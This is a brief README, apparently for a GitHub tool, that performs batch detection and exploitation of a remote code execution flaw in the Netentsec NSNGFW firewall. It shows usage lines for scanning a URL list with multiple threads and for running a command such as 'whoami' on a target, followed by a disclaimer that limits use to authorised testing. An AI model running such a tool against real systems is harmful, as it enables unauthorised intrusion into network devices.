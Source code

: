 # NSNGFW网康下一代防火墙RCE  漏洞批量检测&利用

poc.py -t 线程数 -u urls.txt

exp.py -c whoami -u http://x.x.x.x

本工具仅用于安全测试，禁止未授权非法攻击站点，否则后果自负。
